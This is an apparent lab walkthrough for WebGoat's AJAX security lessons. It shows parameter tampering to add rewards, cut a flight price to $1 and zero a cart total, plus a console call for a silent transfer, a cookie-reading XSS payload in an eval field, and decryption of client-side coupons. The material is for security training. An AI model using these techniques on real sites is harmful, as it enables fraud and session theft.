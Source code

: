 
# Contents

  - [DOM-Based cross-site-scripting](/WebGoat/AJAX_security.md#1)
  - [Client Side Filtering](/WebGoat/AJAX_security.md#2)
  - [DOM Injection](/WebGoat/AJAX_security.md#3)
  - [XML Injection](/WebGoat/AJAX_security.md#4)
  - [JSON Injection](/WebGoat/AJAX_security.md#5)
  - [Silent Transactions Attacks](/WebGoat/AJAX_security.md#6)
  - [Dangerous Use of Eval](/WebGoat/AJAX_security.md#7)
  - [Insecure Client Storage](/WebGoat/AJAX_security.md#8)

---

## DOM Injection

Using Chrome 'inspect element' edit the html code for disabled button by removing `disabled=""` and the button is now enabled.

---

## XML Injection

After submitting the given account ID, you will observe that the account balance seem to only review the first 3 rewards (out of total 5). If you check all items and submit them, intercept with burp (or other HTTP intercept tool) you could see the following POST parameters

```
accountID=836239&check1001=on&check1002=on&check1003=on&SUBMIT=Submit
```

Modify the request to include the other 2 rewards (assuming that the naming convention used is in sequential numbering eg. 1001,1002,1003,1004,1005)

```
accountID=836239&check1001=on&check1002=on&check1003=on&check1004=on&check1005=on&SUBMIT=Submit
```

---

## JSON Injection

From: 'BOS'

To: 'SEA'

You will see there are 2 radio buttons, select the one with 0 stops priced at $600 and click submit with burp (or other HTTP intercept tools)

`travelFrom=BOS&travelTo=SEA&radio0=on&SUBMIT=Submit&price2Submit=%24600`

We observe that it is submitting `%24600` which translates to `$600`. Modify the following to make the flight priced cheaper (real cheap at $1!)

`travelFrom=BOS&travelTo=SEA&radio0=on&SUBMIT=Submit&price2Submit=%241`

---

## Silent Transactions Attack

When intercepting HTTP you will notice that GET request is made with all parameters shown eg.

```
GET /WebGoat/attack?Screen=144&menu=400&from=ajax&newAccount=test&amount=123&confirm=Transferring
```

To submit data silently, using Chrome 'Inspect element' and click 'Console' tab and issue `javascript:` and you should see one of the autocompleted commands is `javascript:submitData()`. If you enter it, below is the result

```javascript
javascript:submitDatasubmitData(accountNo, balance) {var url = 'attack?Screen=144&menu=400&from=ajax&newAccount='+ accountNo+ '&amount=' + balance +'&confirm=' + document.getElementById('confirm').value; 
```

We can observe from this function `submitData()` requires 2 parameters which seems like what is the account number and balance amount to transfer. Issue the following command in console.

```javascript
javascript:submitData(123,999999999999999)
```

---

## Dangerous Use of Eval

We can get XSS for appending this to `Enter your three digit access code:`

```javascript
');alert(document.cookie);('
```

---

## Insecure Client Storage

### Stage 1

`Inspect` > `Sources` check javascript folder `clientSideValidation.js`. The Coupons required are actually found below, but they are 'encrypted'. To 'decrypt' the coupons, simply copy the whole block of codes into your developer tool's `console`

```javascript
var coupons = ["nvojubmq",
"emph",
"sfwmjt",
"faopsc",
"fopttfsq",
"pxuttfsq"];

function isValidCoupon(coupon) {
    coupon = coupon.toUpperCase();
    for(var i=0; i<coupons.length; i++) {
        decrypted = decrypt(coupons[i]);  //<-------- HOW TO DECRYPT HERE!!!
        if(coupon == decrypted){
            ajaxFunction(coupon);
            return true;
        }
    }
    return false;   
}

function decrypt(code){
    code = code.toUpperCase();
    alpha = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    caesar = '';

    for (i = code.length ;i >= 0;i--){  
        for (j = 0;j<alpha.length;j++){     
            if(code.charAt(i) == alpha.charAt(j)){
                caesar = caesar + alpha.charAt((j+(alpha.length-1))%alpha.length);
            }       
        }
    }   
    return caesar;
}
```

Now run the command `decrypted = decrypt(coupons[0]);` ... `decrypted = decrypt(coupons[4]);`

![](/WebGoat/screens/coupons.png)

### Stage 2

After applying the coupons, update quantity of items and see the total cost add up with the coupon discount being applied. Then right click the value of total cost and select `Inspect` , now modify the value to `$0.0` and click `Purchase` button. 

![](\WebGoat\screens\free.png)


